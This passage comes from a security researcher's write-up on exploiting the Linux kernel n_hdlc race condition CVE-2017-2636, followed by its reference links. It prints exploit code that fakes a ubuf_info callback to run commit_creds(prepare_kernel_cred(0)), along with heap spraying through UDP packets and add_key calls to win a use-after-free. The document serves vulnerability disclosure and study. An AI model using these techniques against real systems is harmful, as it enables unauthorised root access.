 The definition of `struct skb_shared_info` and `struct ubuf_info` is copied to the exploit code from [`include/linux/skbuff.h`][24] kernel header.

The payload buffer will be passed to `add_key` as a parameter, and the data which we put there at `7872 - 18 = 7854` byte offset will exactly overwrite `skb_shared_info`.

{% highlight c %}
	char *area = NULL;
	void *target_addr = (void *)(MMAP_ADDR);

	area = mmap(target_addr, 0x1000, PROT_READ | PROT_WRITE,
			MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
	if (area != target_addr) {
		perror("[-] mmap\n");
		return EXIT_FAILURE;
	}

	uinfo_p = target_addr;
	uinfo_p->callback = (uint64_t)root_it;

	info->destructor_arg = (uint64_t)uinfo_p;
	info->tx_flags = SKBTX_DEV_ZEROCOPY;
{% endhighlight %}

The `ubuf_info.callback` is called in [`skb_release_data()`][25] if `skb_shared_info.tx_flags` has `SKBTX_DEV_ZEROCOPY` flag set to 1. In our case, `ubuf_info` item resides in the userspace memory, so dereferencing its pointer in the kernelspace will be detected by SMAP.

Anyway, now the `callback` points to `root_it()`, which does the classical `commit_creds(prepare_kernel_cred(0))`. However, this shellcode resides in the userspace too, so executing it in the kernelspace will be detected by SMEP. We are going to bypass it soon.

# Heap spraying and stabilization

As I mentioned, `n_hdlc_release()` frees thirteen `n_hdlc_buf` items. Our `exploit_skb()` is executed shortly after that. Here we do the actual heap spraying by sending twenty 7500-byte UDP packets. Experiments showed that the packets number 12, 13, 14, and 15 are likely to be exploitable, so they are sent to the dedicated server socket.

Now we are going to perform the use-after-free on `sk_buff.data`:
- receive 4 network packets on the dedicated server socket one by one,
- execute several `add_key` syscalls with our payload after receiving each of them.

The exact number of `add_key` syscalls giving the best results was found empirically by testing the exploit many times. The example of `add_key` call:
{% highlight c %}
k[0] = syscall(__NR_add_key, "user", "payload0",
			payload, PAYLOAD_SZ, KEY_SPEC_PROCESS_KEYRING);
{% endhighlight %}

If we won the race and did the heap spraying luckily, then our shellcode is executed when the poisoned packet is received. After that we can invalidate the keys that were successfully allocated in the kernel memory:

{% highlight c %}
for (i = 0; i < KEYS_N; i++) {
	if (k[i] > 0)
		syscall(__NR_keyctl, KEYCTL_INVALIDATE, k[i]);
}
{% endhighlight %}


[1]: https://www.cve.mitre.org/cgi-bin/cvename.cgi?name=2017-2636
[2]: https://bugzilla.redhat.com/show_bug.cgi?id=CVE-2017-2636
[3]: https://bugzilla.redhat.com/show_bug.cgi?id=1430049
[4]: https://bugzilla.novell.com/show_bug.cgi?id=CVE-2017-2636
[5]: https://security-tracker.debian.org/tracker/CVE-2017-2636
[6]: https://people.canonical.com/~ubuntu-security/cve/2017/CVE-2017-2636.html
[7]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=82f2341c94d270421f383641b7cd670e474db56b
[8]: http://seclists.org/oss-sec/2017/q1/569
[9]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=be10eb7589337e5defbe214dae038a53dd21add8
[10]: https://gruss.cc/files/prefetch.pdf
[11]: https://github.com/xairy/kernel-exploits/tree/master/prefetch-side-channel
[11.1]: https://youtu.be/nDCvRxWxN0Y
[12]: http://lxr.free-electrons.com/ident?i=flush_tx_queue
[13]: http://lxr.free-electrons.com/ident?i=n_hdlc_send_frames
[14]: http://lxr.free-electrons.com/ident?i=n_hdlc_release
[15]: https://github.com/google/syzkaller
[16]: https://github.com/google/syzkaller/wiki/Found-Bugs
[17]: http://lxr.free-electrons.com/source/Documentation/serial/tty.txt
[18]: https://unix.stackexchange.com/questions/117981/what-are-the-responsibilities-of-each-pseudo-terminal-pty-component-software
[19]: https://lwn.net/Articles/612153/
[20]: https://xairy.github.io/blog/2016/cve-2016-2384
[21]: http://vger.kernel.org/~davem/skb_data.html
[22]: https://speakerdeck.com/retme7/talk-is-cheap-show-me-the-code
[23]: http://keenlab.tencent.com/en/
[24]: http://lxr.free-electrons.com/source/include/linux/skbuff.h
[25]: http://lxr.free-electrons.com/ident?i=skb_release_data
[26]: http://vulnfactory.org/blog/2011/06/05/smep-what-is-it-and-how-to-beat-it-on-linux/
[27]: https://www.syscan360.org/slides/2016_SG_Vitaly_Nikolenko_Practical_SMEP_Bypass_Techniques.pdf
[28]: http://lxr.free-electrons.com/source/arch/x86/include/asm/special_insns.h
[29]: https://www.ptsecurity.com/ww-en/